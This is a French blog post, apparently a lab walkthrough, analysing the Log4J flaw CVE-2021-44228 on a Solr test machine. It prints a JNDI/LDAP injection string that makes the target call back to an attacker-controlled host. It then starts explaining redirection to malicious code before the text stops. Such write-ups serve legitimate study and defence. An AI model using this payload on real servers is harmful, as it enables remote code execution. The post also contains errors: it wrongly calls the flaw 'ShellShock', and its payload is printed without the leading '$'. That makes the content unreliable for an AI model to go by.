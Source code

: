 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel de la cybersécurité pour avoir entendu parler de cette faille.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4j.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine d'exploit.

# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la création de logs. Pour cette attaque je me base sur l'application Solr, puisque cette dernière utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que Log4J est présent dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça il faut d'abord trouver un point d'injection. Le plus simple est donc de jeter un oeil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées, l'url mais également **les paramètres**.

Pour identifier la vulnérabilité du système, il suffit d'injecter un paramètres GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`{jndi:ldap://<IP>:<PORT>}`

Voilà donc l'injection, avec un listener de l'autre côté pour vérifier la bonne execution par le système de logs :

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)

Une connexion s'effectue bien entre notre machine et le serveur, ce dernier est donc vulnérable à l'attaque.

# Exploitation

Nous avons vu dans la partie précédente que l'application était vulnérable, cependant pour le moment, aucune execution de code sur le serveur n'est possible. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de jdni va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux et donc utilisé pour rediriger vers du code malveillant en notre possession.


